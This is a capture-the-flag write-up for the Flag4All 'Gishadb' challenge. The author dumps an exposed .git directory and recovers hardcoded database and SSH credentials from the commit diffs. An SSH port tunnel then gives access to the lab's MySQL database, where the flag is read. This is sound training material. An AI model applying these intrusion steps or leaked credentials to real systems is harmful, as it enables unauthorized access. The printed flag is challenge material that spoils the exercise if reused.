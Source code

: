 ```yaml
---
title: "Gishadb"
subtitle: "Flag4All - Gishadb"
date: 2023-10-22T03:13:42+02:00
draft: false
tags: ['Forensics', 'Realistic']
categories:
  - 'Writeups'
  - 'Flag4All'
---
```


## Category

> Realistic

## Description

Ce serveur écoute sur 2 ports ! 443 et 222. Trouvez un moyen d'obtenir le flag.

This server listen on two ports: 443 and 222. Find a way to get the flag.

## Link

https://gishadb.flag4all.sh

## Difficulty

**EASY** - 481 points

- Author: **Penthium2 (BZHack)**
---

{{< image src="/Gishadb/screen.png" caption="Screenshot" title="Screenshot" alt="Screenshot" >}}

## Write up

### .git dump

I highly recommend you to have [DotGit](https://github.com/davtur19/DotGit) extension installed for CTF and web audits.
It automatically checks for you if a **.git directory is exposed**. And that's what happened here when I opened the page. This extension also comes with an extraction tool.

{{< image src="/Gishadb/dotgit.png" caption="Dump it !" title="Dump it !" alt="Dump it !" >}}

After the whole extraction is done, we can first take a look at the git logs with ``git log``:

{{< image src="/Gishadb/commits.png" caption="commits" title="commits" alt="commits" >}}

Then I used ``git show <commit id>`` to show the content of each commit. And it didn't disappoint me:

{{< admonition type=info title="1. The main page content (not useful) AND db credentials (ofc useful)" open=false >}}
```diff
commit 02ef7e50a0bb9954d7819f8fd7c7b2c593db0d73
Author: penthium2 <penthium2@hotmail.fr>
Date:   Thu May 25 14:44:03 2023 +0200

    ipremier commit

diff --git a/index.php b/index.php
new file mode 100644
index 0000000..20e4fa0
--- /dev/null
+++ b/index.php
@@ -0,0 +1,13 @@
+<H1>Je suis un maitre du PHP et SQL</h1>
+<?php
+$cnx = new PDO('mysql:host=127.0.0.1;dbname=app;charset=utf8', 'app', 'db_Super_P4$$');
+
+// Partie "Requête"
+
+echo "<p>dans ma table <b>HAND</b></p>";
+$query = 'SELECT * FROM `hand` where id=1';
+$resultSet = $cnx->query($query);
+$element = $resultSet->fetch();
+echo "<p> voici le $element[1] de $element[2] et son id : $element[0]<p>";
+?>
+<h2> mais quel est la valeur de l'id 3 ?? </h2>
```
{{</admonition>}}

{{< admonition type=info title="2. \"Fixing\" the credentials leak (but they did not change)" open=false >}}

```diff
commit 6dbcaf8c22bbe74aa2562ac60f58602d8592347a
Author: penthium2 <penthium2@hotmail.fr>
Date:   Thu May 25 14:50:32 2023 +0200

    sécurisation

diff --git a/config.php b/config.php
new file mode 100644
index 0000000..35d2322
--- /dev/null
+++ b/config.php
@@ -0,0 +1,3 @@
+<?php
+$cnx = new PDO('mysql:host=127.0.0.1;dbname=app;charset=utf8', 'app', 'db_Super_P4$$');
+?>
diff --git a/index.php b/index.php
index 20e4fa0..5cd8a7d 100644
--- a/index.php
+++ b/index.php
@@ -1,7 +1,7 @@
 <H1>Je suis un maitre du PHP et SQL</h1>
 <?php
-$cnx = new PDO('mysql:host=127.0.0.1;dbname=app;charset=utf8', 'app', 'db_Super_P4$$');
-
+// ajout d'un iclude pour la s<C3>curit<C3>
+include("config.php");
 // Partie "Requête"

 echo "<p>dans ma table <b>HAND</b></p>";
```
{{</admonition>}}

{{< admonition type=info title="3. some SSH credentials! (very useful)" open=false >}}
```diff
commit 13c0faef33bf466602913bc3918094cfefea072f
Author: penthium2 <penthium2@hotmail.fr>
Date:   Thu May 25 14:52:44 2023 +0200

    ajout info ssh pour preprod

diff --git a/info_login b/info_login
new file mode 100644
index 0000000..d904e9b
--- /dev/null
+++ b/info_login
@@ -0,0 +1,2 @@
+loginssh : gishadb@192.168.124.1
+pass : iop
```
{{</admonition>}}

{{< admonition type=info title="4. Removing SSH creds (they di not change too)" open=false >}}
```diff
commit cfdccf9472e0b985abc372f90fa64352d744b5ad (HEAD -> master)
Author: penthium2 <penthium2@hotmail.fr>
Date:   Thu May 25 14:53:28 2023 +0200

    suppresion info preprod

diff --git a/info_login b/info_login
deleted file mode 100644
index d904e9b..0000000
--- a/info_login
+++ /dev/null
@@ -1,2 +0,0 @@
-loginssh : gishadb@192.168.124.1
-pass : iop
```
{{</admonition>}}

We now have:
- Database credentials
- SSH credentials

### Database dump

Then plan now is to connect to the server, and access the local database (not accessible remotely). However, a little thing will bother us after connecting to the port **222**:

![Fuck](/Gishadb/fuckssh.gif)

This program is impossible to leave, just have to close the terminal.

But anyway, we will go through an **SSH tunnel**, using ``-L`` flag,
that allows us to forward one port of the server to our machine.

We'll look for MySql port, **3306**
Using ``-N`` will also not prompt the green binary disaster.

Command is: ``ssh -N gishadb@gishadb.flag4all.sh -p 222 -L 3306:localhost:3306``

We can now, in another terminal, connect to the remote MySql server using ``app:db_Super_P4$$``:

```bash
$ mysql -u app -p -h 127.0.0.1
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 100238
Server version: 10.5.21-MariaDB-0+deb11u1 Debian 11
```

Now, need to show the databases, its tables, and then its content : 

```
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| app                |
| information_schema |
+--------------------+

MariaDB [(none)]> use app
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [app]> show tables;
+---------------+
| Tables_in_app |
+---------------+
| hand          |
| users         |
+---------------+

MariaDB [app]> select * from hand;
+----+-----------------------------+----------+
| id | finger                      | ring     |
+----+-----------------------------+----------+
|  1 | pouce                       | Penthium |
|  2 | index                       | Penthium |
|  3 | FLAG{REDACTED}              | Penthium |
|  4 | anulaire                    | Penthium |
|  5 | oriculaire                  | Penthium |
+----+-----------------------------+----------+
```

{{< admonition type=success title="Flag" open=false >}}
:triangular_flag_on_post: `FLAG{TAK3_Care_Of_SSH_POWA}`
{{< /admonition >}}
